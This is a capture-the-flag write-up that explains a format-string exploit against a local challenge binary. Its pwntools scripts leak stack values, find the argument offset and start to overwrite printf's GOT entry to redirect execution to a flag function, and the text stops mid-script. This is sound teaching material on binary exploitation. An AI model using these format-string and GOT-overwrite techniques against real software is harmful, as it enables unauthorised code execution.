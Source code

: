 ## Reference  
[A simple Format String exploit example - bin
0x11](https://www.youtube.com/watch?v=0WvrSfcdq1I&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=18)

[Global Offset Table (GOT) and Procedure Linkage Table (PLT) - bin
0x12](https://www.youtube.com/watch?v=kUk5pw4w0h4&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=19)

[Format String Exploit and overwrite the Global Offset Table - bin
0x13](https://www.youtube.com/watch?v=t1LH9D5cuK4&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=20)

Our plan is to overwrite the `printf` function to the `flag` function using
format string

```c  
printf(item);   //Overwrite printf()  
printf("s. You're wasting your time! We don't even sell ");     //This line
will execute flag()  
```

First, we need to find the offset number (Like buffer overflow need to find
the buffer size)

By using pwntools we can easily do this:  
```python  
from pwn import *  
elf = ELF('./purchases')  
p = elf.process()  
p.recvuntil("purchase? ")  
p.sendline('aaaaaaaa'+'%p '*10)  
print p.recv()  
```  
Output:  
```  
You don't have any money to buy aaaaaaaa0x7ffe22bddf00 0x7f6bcbb7e8c0 (nil)
0x7f6bcbb83500 0x7f6bcbb7e8c0 0xc2 0x22be05d6 0x6161616161616161
0x7025207025207025 0x2520702520702520 s. You're wasting your time! We don't
even sell aaaaaaaa0x7ffe22bddf00 0x7f6bcbb7e8c0 (nil) 0x7f6bcbb83500
0x7ffe22bddd88 0xc2 0x22be05d6 0x6161616161616161 0x7025207025207025
0x2520702520702520 s. Leave this place and buy aaaaaaaa0x7ffe22bddf00
0x7f6bcbb7e8c0 (nil) 0x7f6bcbb83500 0x7ffe22bddd88 0xc2 0x22be05d6
0x6161616161616161 0x7025207025207025 0x2520702520702520  somewhere else. Get
out!  
```  
We can clearly see the `0x6161616161616161` which is `aaaaaaaa` in hex

So the offset is 10 - 2 = 8

By using `%8$p` we can printf only the 8th argument:  
```python  
from pwn import *  
elf = ELF('./purchases')  
p = elf.process()  
p.recvuntil("purchase? ")  
p.sendline('aaaaaaaa%8$p')  
print p.recv()  
```  
Output:  
```  
You don't have any money to buy aaaaaaaa0x6161616161616161s. You're wasting
your time! We don't even sell aaaaaaaa0x6161616161616161s. Leave this place
and buy aaaaaaaa0x6161616161616161 somewhere else. Get out!  
```  
Yay! Try to replace the `aaaaaaaa` to the printf address:  
```python  
from pwn import *  
elf = ELF('./purchases')  
printf_address = elf.symbols['got.printf']      # Get the printf address  
p = elf.process()  
```